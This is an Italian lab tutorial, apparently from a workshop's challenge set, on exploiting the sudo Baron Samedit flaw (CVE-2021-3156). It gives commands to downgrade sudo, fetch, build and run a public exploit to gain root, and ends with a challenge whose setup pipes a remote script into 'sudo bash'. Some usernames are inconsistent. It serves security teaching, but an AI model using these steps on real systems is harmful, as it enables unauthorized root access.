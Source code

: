 [cve-2021-3156]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3156
[qualys]: https://en.wikipedia.org/wiki/Qualys
[qualys-blog-post]: https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit?_ga=2.226100442.1385623629.1616771039-1815361758.1616771039
[challenge-4-setup]: ./assets/challenge-4-setup.sh

# Challenge 4 - Privilage escalation

Benvenuto nella quinta challenge, difficoltà 🤕🤕🤕🤕.
In questa challenge prenderai i panni di un _hacker_.

**Questa challenge e' a solo scopo educativo, pertanto l'autore della challenge non si assume nessuna responsabilità per l'uso che i partecipanti faranno di questa conoscenza.**

## In Questa Challenge

- Utilizzo di funzioni avanzate della shell.
- Compilare un programma da riga di comando.
- Exploitare la vulnerabilità di sudo.
- Effettuare una privilage escalation.
- Proteggersi dall'attacco.

## Introduzione

La vulnerabilità nota con il nome di _Baron Samedit_ documentata in [CVE-2021-3156][cve-2021-3156], e' una delle scoperte più scioccanti dell'ultimo decennio. _Sudo_ e' un programma preinstallato nella maggior parte dei sistemi operativi GNU/Linux, e' utilizzato per eseguire programmi da riga di comando con _permessi di root_ non essendo root. Purtroppo i programmi non sono perfetti e possono essere exploitati attraverso delle vulnerabilità. Queste vulnerabilità possono essere più o meno note al pubblico. Quando una vulnerabilità viene pubblicata gli sviluppatori si mobilitano per correggere il problema rilasciando una nuova versione.
La vulnerabilità _Baron Sameid_ e' stata presente per più di **10 anni** introdotta con un aggiornamento in _luglio 2011_, secondo il team di ricercatori della [Qualys][qualys] coloro che hanno trovato la vulnerabilità.

Exploitando la vulnerabilità permette di ottenere i _permessi di root_ completi anche non facendo parte del _gruppo sudo_. Questo avviene per un bug con il comando `sudoedit -s`. Per maggiori informazioni riguardo alla vulnerabilità visita il [blog post][qualys-blog-post] sul sito di Qualys.

## Proof Of Concept

Per testare questo exploit assicurati di essere in un ambiente sicuro. Guarda la [Challenge 1][challenge-1] per sapere come installare velocemente una macchina virtuale.

Prima di tutto bisogna installare una versione di _sudo_ che contenga il bug.
Fai il downgrade di _sudo_

``` shell
sudo apt install sudo=1.8.31-1ubuntu1
```

E' possibile che la macchina non abbia i programmi necessari per compilare il codice. Installali

``` shell
sudo apt install build-essential
```

Avendo già i _permessi di root_ come utente attuale non ha senso eseguire l'exploit ora. Crea un nuovo utente

``` shell
sudo adduser test-exploit
```

> Inserisci una password e premi `invio` al resto dei i prompt.

Accedi come l'utente `test-exploit`

``` shell
su test-exploit
```

Verifica che il nuovo utente non sia uno _sudoer_

``` shell
sudo -v
```

> L'output dovrebbe essere: _Sorry, user test-exploit may not run sudo on ubuntu-204_.

Verifica che non abbia privilegi di root

``` shell
touch /etc/test
```

> L'output dovrebbe essere: _touch: cannot touch '/etc/test': Permission denied_.

Su GitHub esistono diverse implementazioni dell'exploit. Guardare il codice sorgente di queste implementazioni e' un ottimo modo per imparare.
Scarica l'exploit

``` shell
git clone https://github.com/blasty/CVE-2021-3156 
```

Compila il programma

``` shell
cd CVE-2021-3156/
make
```

Esegui l'exploit

``` shell
./sudo-hax-me-a-sandwich 1
```

Verifica che tua abbia i _permessi di root_ creando un file in `/etc`

``` shell
touch /etc/test
ls -l /etc/t*
```

Aggiungi l'utente `test-exploit` tra i _sudoers_

``` shell
adduser text-exploit sudo
```

Da ora in poi l'utente `text-exploit` fa parte del gruppo `sudo` quindi potrà eseguire comandi con _permessi di root_.

Per provare che le modifiche siano avvenute veramente e che non e' stato un trucco, riavvia la macchina, accedi come utente `text-exploit` ed inizia ad usare i nuovi super poteri.

## Riassunto

- Cos'è la vulnerabilità _Baron Samedit_.
- Come fare il downgrade di un pacchetto.
-  Come creare un nuovo utente.
- Come compilare un programma.
- Come ottenere i _permessi di root_ attraverso un exploit.
-  Come aggiungere un'utente al gruppo _sudo_.

## Challenge

Dato l'accesso ad una macchina come utente `challenge-4` con  solo due permessi, l'esecuzione del comando `exit` e dell'editor `vi`. Attraverso una _privilage escalation_ crea il file `/etc/hacked.txt` con all'interno il testo `Sei stato hackerato`.

Prima di iniziare la challenge prepara la macchina. Crea un nuovo utente  `challenge-4` ed esegui [questo script][challenge-4-setup] con _permessi di root_. Lo script configura adeguatamente l'utente `challenge-4` per la challenge e prende in input due argomenti,l'utente e l'hostname.

``` shell
sudo adduser challenge-4
curl https://gitlab.com/pdpfsug/mkspace/challenges/-/raw/master/challenge-4/assets/challenge-4-setup.sh | sudo bash -s challenge-4 challenge-ubuntu
su -l challenge-4
```

> Buona fortuna.
